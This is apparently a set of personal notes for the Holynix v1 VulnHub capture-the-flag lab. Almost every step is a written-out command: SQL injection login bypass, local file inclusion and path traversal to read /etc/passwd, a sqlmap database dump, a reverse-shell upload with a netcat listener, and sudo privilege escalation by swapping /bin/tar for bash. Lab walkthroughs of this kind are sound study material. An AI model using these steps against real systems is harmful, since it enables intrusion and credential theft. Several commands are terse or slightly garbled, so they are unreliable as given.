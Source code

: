 
https://www.vulnhub.com/entry/holynix-v1,20/
https://www.hackingarticles.in/hack-the-holynix-v1-boot-2-root-challenge/


```ls
netdiscover

nmap -p- -A 192.168.236.105

Browser http://192.168.236.105
http://192.168.236.105/?page=login.php

random Admin:passwd
SQL injection

```

```R
Username = ' or 1=1 #
Password = ' or 1=1 #

Success user login
User: Alamo


http://192.168.236.105/index.php?page=upload.php
Upload .php file > uploading disabled for user alamo

Alamo limited user

```

Web Vuln Scanner
```ls
nikto -h http://192.168.236.105

LFI 
index.php?page=../../n/etc/passwd
index.php?page=../../n/boot/ini

```

open burpsuite
```ls
http://192.168.236.105/index.php?page=ssp.php
email

POST request is text**_file_name=ssp%2Femail.txt&B=Display+File**

```

```ls
Modify POST Request 

text_file_name=ssp%2F../../../../../../../../../../etc/passwd&B=Display+File

/etc/passwd 
dumped on website

```

sqlmap
```css
sqlmap -u http://192.168.1.105/index.php?page=login.php --forms --data="username=etenenbaum" --dbs --batch

sqlmap -u http://192.168.1.105/index.php?page=login.php --forms --data="username=etenenbaum" -D creds --tables --dump --batch

login to website with etenenbaum : passwd

tar -zcvf shell.tar.gz shell.php
(a reverse shell script upload into website)

http://192.168.1.105/~etenenbaum/

nc -lvp 1234

```

Priv Esc

```
sudo -l
cd /tmp/
cp /bin/bash
sudo chown root:root /tmp/bash
sudo mv /bin/tar /bin/tar.bak
sudo mv /tmp/bash /bin/tar
sudo /bin/tar

id

```